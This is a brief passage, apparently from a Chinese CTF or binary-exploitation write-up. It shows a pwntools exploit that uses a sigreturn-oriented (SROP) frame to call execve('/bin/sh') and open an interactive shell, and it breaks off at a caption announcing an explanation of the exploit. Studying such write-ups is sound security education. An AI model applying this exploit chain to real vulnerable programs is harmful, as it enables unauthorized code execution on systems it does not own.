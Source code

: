 ```plain

binsh=l64()-0x118
leak('binsh',binsh)

sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=binsh
sigFrame.rsi=0x0
sigFrame.rdx=0x0
sigFrame.rip=syscall_ret

pl2='/bin/sh\00'*2+p64(gadget)+p64(syscall_ret)+str(sigFrame)
s(pl2)

p.interactive()
```

[![](assets/1701612132-78f8772e0433936450f38cf94f0d5db2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001603-5cea596e-3d19-1.png)

解释一下 exp:
